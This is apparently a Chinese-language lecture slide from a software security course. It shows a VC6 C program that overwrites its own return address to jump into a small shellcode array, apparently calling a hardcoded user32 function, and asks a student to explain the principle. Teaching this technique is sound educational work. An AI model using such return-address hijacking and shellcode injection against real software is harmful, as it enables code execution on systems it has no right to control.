

接下来就可以利用这个Shellcode来实现漏洞的利用了，一个VC6测试程序如下：
#include <stdio.h>
#include <windows.h>
char ourshellcode[]="\x33\xDB\x53\x53\x53\x53\xB8\xEA\x07\xD5\x77\xFF\xD0";
void main()
{
	LoadLibrary("user32.dll");
	int *ret;
	ret=(int*)&ret+2;
	(*ret)=(int)ourshellcode;
	return;
}
请某位同学来回答一下原理